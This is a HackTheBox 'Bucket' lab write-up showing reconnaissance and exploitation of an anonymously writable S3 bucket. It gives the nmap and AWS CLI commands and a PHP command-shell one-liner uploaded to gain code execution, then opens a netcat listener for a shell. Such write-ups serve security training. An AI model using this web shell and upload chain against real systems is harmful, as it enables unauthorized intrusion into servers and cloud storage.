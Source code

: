 <h2>AWS lab on HackTheBox called ‘Bucket’</h2>

<h3>Initial Access:</h3>
Step 1: nmap -Pn 10.10.10.212 -p- --min-rate=5000|awk -F '/' '/open/ {print $1}'

Output returns open ports 22 and 80.

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.10.212 --min-rate=5000 -p 22,80 -sCV -oN nmap-htb-buckets 

Output returns:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/651a96ff-1389-4e6a-8db0-786d0045cf75)

Step 3: Nmap output shows a domain name of bucket.htb.  Enter this into /etc/hosts file so that we can access this domain name: 10.10.10.212 bucket.htb

Step 4: Visit the site http://bucket.htb.  Looking over the source code on the site shows:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/35ca4db5-919d-4916-923d-874e11e55532)

This shows a source at a subdomain of http://s3.bucket.htb.  

Enter this subdomain into /etc/hosts: 10.10.10.212 bucket.htb s3.bucket.htb

Step 5: The subdomain of s3.bucket.htb indicates that this is an aws s3 bucket.  Let’s check if we can list any s3 buckets with anonymous access using awscli: aws --no-sign-request s3 ls --endpoint-url http://s3.bucket.htb

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f5597f92-9daf-4364-a5fe-649361cdc27d)

This return shows that there is a s3 bucket called ‘adserver’.

Step 6: List the ‘adserver’ s3 bucket: aws --no-sign-request s3 --endpoint-url http://s3.bucket.htb ls s3://adserver

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/92959525-b656-4c2b-85fe-47f5258346d7)

Download ‘index.html’ listed in the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb  cp s3://adserver/index.html .

Opening index.html confirms that this bucket is listing the website http://bucket.htb.  

Step 7: Check for more information on what we can do on this s3 bucket by running the ‘OPTIONS’ request method on the s3.bucket.htb endpoint:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/f4bc41c8-224e-411d-a556-852ef6122026)

We see from this that we can use the ‘PUT’ request method which is used to upload files.  

Step 8: Upload a php command shell (`<?php system($_GET[“cmd”]); ?>`) to the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb cp test.php s3://adserver/

Navigate to the uploaded file: http://bucket.htb/test.php?cmd=whoami

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/108b6033-cda6-431b-84af-d15f3514f864)

Step 9: Open up a netcat listener: nc -lvnp 4444

Step 10: Upload a php webshell using the same command used in step 8.  Then navigate to the uploaded web shell to get a shell as user www-data.





